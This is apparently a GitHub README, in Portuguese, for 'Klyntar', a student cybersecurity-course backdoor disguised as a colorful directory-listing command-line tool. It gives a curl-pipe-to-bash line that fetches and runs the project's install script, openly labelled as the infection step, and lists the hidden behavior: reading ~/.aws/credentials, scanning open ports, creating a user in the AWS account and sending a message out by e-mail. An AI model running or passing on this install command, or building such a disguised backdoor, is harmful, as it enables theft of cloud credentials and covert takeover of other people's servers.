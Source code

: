 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_image.png" alt="Logo" width="350" height="350">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vulnerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de linha de comando para mostrar os diretórios de forma colorida no terminal :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl -L https://raw.githubusercontent.com/gabriel-dantas98/klyntar/master/install.sh | bash
```

## Por trás dos panos 

 - Verifica se existe ~/.aws/credentials;
 - Scaneia todas as portas que estão abertas no host;
 - Cria uma usuário na conta que a instância tem permissão;
 - Cria uma mensagem e envia por e-mail;
